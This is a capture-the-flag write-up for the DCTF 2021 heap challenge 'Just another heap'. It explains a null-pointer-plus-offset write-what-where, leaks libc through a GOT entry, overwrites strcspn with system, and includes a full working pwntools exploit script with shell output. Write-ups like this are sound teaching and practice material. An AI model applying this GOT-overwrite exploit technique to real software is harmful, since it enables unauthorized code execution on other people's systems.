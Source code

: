 # DCTF 2021

## Just another heap

> 500  
>  
> There are so many ways you can pwn this.  
>  
> `nc dctf-chall-just-another-heap.westeurope.azurecontainer.io 7481`  
>  
> [just\_another\_heap](just_another_heap) [Dockerfile](Dockerfile)

Tags: _pwn_ _x86-64_ _malloc_ _null-pointer_ _heap_ _heap-not_ _write-what-
where_ _got-overwrite_

## Summary

IMHO, the simplest [portable] way to pwn this was to use a null-pointer +
offset to _write-what-where_ the GOT.

## Analysis

### Checksec

```  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

All of the pointers to the heap are in global arrays; the _no-PIE_ will be
helpful for that; same goes for the GOT as well (Partial RELRO = GOT
vulnerable to overwrite).

### Decompile with Ghidra

> All naming done by hand, there was nothing for free here (except libc
> labels).

```c  
     puts("name:");  
     uVar2 = local_38;  
     pvVar3 = malloc(0x20);  
     *(void **)(&memory_name_ptr_00602260 + uVar2 * 8) = pvVar3;  
     prompt_fgets(*(undefined8 *)(&memory_name_ptr_00602260 + local_38 * 8),0x10);  
     lVar1 = *(long *)(&memory_name_ptr_00602260 + local_38 * 8);  
     sVar4 = strcspn(*(char **)(&memory_name_ptr_00602260 + local_38 * 8),"\n");  
     *(undefined *)(sVar4 + lVar1) = 0;  
     puts("How long is your memory");  
     prompt_lu(&local_48);  
     local_30 = malloc(local_48);  
     puts("Sometimes our memories fade and we only remember parts of them.");  
     prompt_lu(&local_40);  
     puts("Would you like to leave some space at the beginning in case you remember later?");  
     if (local_48 < local_40) {  
       puts("Invalid offset");  
     }  
     else {  
       if (local_30 != (void *)0x0) {  
         local_4c = 0;  
         while ((ulong)(long)local_4c < local_40) {  
           *(undefined *)((long)local_30 + (long)local_4c) = 0x5f;  
           local_4c = local_4c + 1;  
         }  
       }  
       local_30 = (void *)((long)local_30 + local_40);  
       fflush(stdin);  
       puts("What would you like to write");  
       prompt_fgets(local_30,local_48 - local_40);  
       puts("Would you say this memory is important to you? [Y/N]");  
       prompt_fgets(local_24,2);  
```

This section of the `create` function contains the _write-what-where_ that
we'll use to setup a libc leak as well as overwrite the GOT for a shell.

The `local_30 = malloc(local_48);` statement with a sufficiently large input
(`local_48`) will fail and end up as zero (null), with the only check for this
an initialization section (`if (local_30 != (void *)0x0) {`).

The `prompt_lu(&local_40);` statement sets our offset and is then used to
compute the target address with: `local_30 = (void *)((long)local_30 +
local_40);`.  The only input validation is `local_48 < local_40`; the length
of the initial length must be greater than the offset (both inputs are
`unsigned long`).

With this, we can set the length (`local_48`) to `2**64 - 1`, and `malloc`
will quietly fail setting `local_30` to `0`.  This ends up with `local_40`
containing the target location to overwrite.  We have our _where_.

The _what_ is provided by: `prompt_fgets(local_30,local_48 - local_40);`.
`prompt_fgets` is just a frontend to `fgets`, however we need to leverage that
`int param_2`:

```c  
void prompt_fgets(char *param_1,int param_2)  
{  
 printf("> ");  
 fgets(param_1,param_2,stdin);  
 return;  
}  
```

The `local_48 - local_40` passed to `fgets` is problematic, if `local_48` is
very large [to get `malloc` to return a null], and `local_40` is relatively
small (a valid address, say in the GOT (`0x600000` range)), then the
difference will be very large, `fgets` will call `malloc` and that `malloc`
will fail as well.

To get a reasonable [small] input for `fgets` we need to find the right value
of `local_48` reduced by `local_40` then _anded_ with `0xffffffff` (this is
the `int param_2` from `prompt_fgets`; we are calling a function with an
`unsigned long` as an input, however the function is expecting an `int`
(32-bit), so we can assume only the lower 32-bits will be used).

```python  
2**64 - 2**32 + target + size  
```

You can work out the math yourself, but this will properly set `local_48` and
`local_40` so that `malloc` nulls out, leaving our target address in
`local_40` to satisfy the _where_ (`local_30 = (void *)((long)local_30 +
local_40);`), and `local_48 - local_40` will just end up something like
`0xffffffff0000000a` that when reduced to 32-bits by `prompt_fgets` will be a
`size` of `0xa` in this example.

We have our _what_, now we just need a leak.

```c  
     pvVar3 = malloc(0x20);  
     *(void **)(&memory_name_ptr_00602260 + uVar2 * 8) = pvVar3;  
     prompt_fgets(*(undefined8 *)(&memory_name_ptr_00602260 + local_38 * 8),0x10);  
```

At the start of `create` we're prompted for a _name_ that is malloc'd and then
the pointer stored in a global array based at `0x602260`.

To leak libc all we need to do is use our _write-what-where_ to change that
pointer to point to some place in the GOT or BSS to pickup a libc leak.  The
`list` function emits the names and therefore our leak.

> The libc version was provided in the form of a `Dockerfile`.  I've included
> it (`libc.so.6`) as part of this writeup since a future update to Ubuntu
> 18.04 may change the version of libc.

## Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./just_another_heap')  
binary.symbols['names'] = 0x602260

if args.REMOTE:  
   p = remote('dctf-chall-just-another-heap.westeurope.azurecontainer.io',
7481)  
   libc = ELF('./libc.so.6')  
else:  
   import signal  
   p = process(('stdbuf -i0 -o0 -e0 '+binary.path).split(),preexec_fn=lambda:
signal.signal(signal.SIGALRM, signal.SIG_IGN))  
   libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  
```

Standard pwntools setup, however I added the symbol `names`, and have my local
process ignoring SIGALRM.

> No `setvbuf` in challenge binary, so I had to prepend `stdbuf`.

```python  
p.sendlineafter('> ','1')  
p.sendlineafter('> ','0')  
p.sendlineafter('> ','blah')  
p.sendlineafter('> ',str(2**64 - 2**32 + binary.sym.names + 10))  
p.sendlineafter('> ',str(binary.sym.names))  
p.sendlineafter('> ',p64(binary.got.puts))  
p.sendlineafter('> ','N')  
p.sendlineafter('> ','N')  
p.sendlineafter('> ','5')

p.recvuntil('0: ')  
puts = u64(p.recv(6) + b'\0\0')  
log.info('puts: ' + hex(puts))  
libc.address = puts - libc.sym.puts  
log.info('libc.address: ' + hex(libc.address))  
```

Based on the analysis above this should be fairly clear.  Just add an entry,
name it `blah`, but immediately overwrite its pointer with the location of GOT
`puts`, then `list` (`5`) and capture the leak.

```python  
p.sendlineafter('> ','1')  
p.sendlineafter('> ','1')  
p.sendlineafter('> ','blah')  
p.sendlineafter('> ',str(2**64 - 2**32 + binary.got.strcspn + 10))  
p.sendlineafter('> ',str(binary.got.strcspn))  
p.sendlineafter('> ',p64(libc.sym.system))  
p.sendlineafter('> ','N')  
p.sendlineafter('> ','N')  
```

Same as the previous, but this time change `strcspn` to `system` in the GOT.

```python  
p.sendlineafter('> ','1')  
p.sendlineafter('> ','2')  
p.sendlineafter('> ','/bin/sh')  
p.interactive()  
```

Finally, create a 3rd memory, but the `strcspn` that was used to replace the
`\n` with `\0` is now `system`, so just ask for a shell as your _name_.

Output:

```bash  
# ./exploit.py REMOTE=1  
[*] '/pwd/datajerk/dctf2021/just_another_heap/just_another_heap'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to dctf-chall-just-another-
heap.westeurope.azurecontainer.io on port 7481: Done  
[*] '/pwd/datajerk/dctf2021/just_another_heap/libc.so.6'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] puts: 0x7fd942288aa0  
[*] libc.address: 0x7fd942208000  
[*] Switching to interactive mode  
$ id  
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)  
$ cat flag.txt  
dctf{I_h4V3_0_id3a_h0W_y0u_G0T_h3r3}  
```  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/dctf2021/just_another_heap).